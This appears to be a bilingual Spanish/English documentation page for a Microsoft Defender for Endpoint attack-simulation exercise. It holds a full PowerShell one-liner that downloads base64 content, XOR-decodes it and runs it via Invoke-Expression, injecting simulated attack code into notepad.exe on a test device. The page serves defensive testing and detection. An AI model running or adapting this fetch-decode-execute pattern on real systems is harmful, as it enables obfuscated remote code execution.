 1.  <span data-ttu-id="e0d70-155">Inicie sesión en el dispositivo de prueba con la cuenta de usuario de prueba.</span><span class="sxs-lookup"><span data-stu-id="e0d70-155">Log in to the test device with the test user account.</span></span>

2.  <span data-ttu-id="e0d70-156">Abra una ventana de Windows PowerShell en el dispositivo de prueba.</span><span class="sxs-lookup"><span data-stu-id="e0d70-156">Open a Windows PowerShell window on the test device.</span></span>

3.  <span data-ttu-id="e0d70-157">Copie el siguiente script de simulación:</span><span class="sxs-lookup"><span data-stu-id="e0d70-157">Copy the following simulation script:</span></span>
```
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12;$xor
= [System.Text.Encoding]::UTF8.GetBytes('WinATP-Intro-Injection');$base64String = (Invoke-WebRequest -URI "https://winatpmanagement.windows.com/client/management/static/MTP_Fileless_Recon.txt"
-UseBasicParsing).Content;Try{ $contentBytes = [System.Convert]::FromBase64String($base64String) } Catch { $contentBytes = [System.Convert]::FromBase64String($base64String.Substring(3)) };$i = 0;
$decryptedBytes = @();$contentBytes.foreach{ $decryptedBytes += $_ -bxor $xor[$i];
$i++; if ($i -eq $xor.Length) {$i = 0} };Invoke-Expression ([System.Text.Encoding]::UTF8.GetString($decryptedBytes))
```
>[!NOTE]
><span data-ttu-id="e0d70-158">Si abre este documento en un explorador Web, es posible que surjan problemas para copiar el texto completo sin perder determinados caracteres o introducir saltos de línea adicionales.</span><span class="sxs-lookup"><span data-stu-id="e0d70-158">If you open this document on a web browser, you might encounter problems copying the full text without losing certain characters or introducing extra line breaks.</span></span> <span data-ttu-id="e0d70-159">Descargue este documento y ábralo en Adobe Reader.</span><span class="sxs-lookup"><span data-stu-id="e0d70-159">Download this document and open it on Adobe Reader.</span></span>

4. <span data-ttu-id="e0d70-160">En el símbolo del sistema, pegue y ejecute el script copiado.</span><span class="sxs-lookup"><span data-stu-id="e0d70-160">At the prompt, paste and run the copied script.</span></span>

>[!NOTE]
><span data-ttu-id="e0d70-161">Si está ejecutando PowerShell con el protocolo de escritorio remoto (RDP), use el comando tipo de texto del portapapeles en el cliente RDP porque es posible que la tecla de método rápido **Ctrl-V** o el método de pegar clic con el botón secundario no funcionen.</span><span class="sxs-lookup"><span data-stu-id="e0d70-161">If you're running PowerShell using remote desktop protocol (RDP), use the Type Clipboard Text command in the RDP client because the **CTRL-V** hotkey or right-click-paste method might not work.</span></span>  <span data-ttu-id="e0d70-162">Las versiones recientes de PowerShell también no aceptarán ese método, es posible que deba copiar en la memoria el Bloc de notas en primer lugar, copiarlo en la máquina virtual y, a continuación, pegarlo en PowerShell.</span><span class="sxs-lookup"><span data-stu-id="e0d70-162">Recent versions of PowerShell sometimes will also not accept that method, you might have to copy to Notepad in memory first, copy it in the virtual machine, and then paste it into PowerShell.</span></span>

<span data-ttu-id="e0d70-163">Unos segundos más tarde, se abrirá <i>notepad.exe</i> .</span><span class="sxs-lookup"><span data-stu-id="e0d70-163">A few seconds later, <i>notepad.exe</i> will open.</span></span> <span data-ttu-id="e0d70-164">Un código de ataque simulado se insertará en notepad.exe.</span><span class="sxs-lookup"><span data-stu-id="e0d70-164">A simulated attack code will be injected into notepad.exe.</span></span> <span data-ttu-id="e0d70-165">Mantenga abierta la instancia de Bloc de notas generada automáticamente para experimentar todo el escenario.</span><span class="sxs-lookup"><span data-stu-id="e0d70-165">Keep the automatically generated Notepad instance open to experience the full scenario.</span></span>
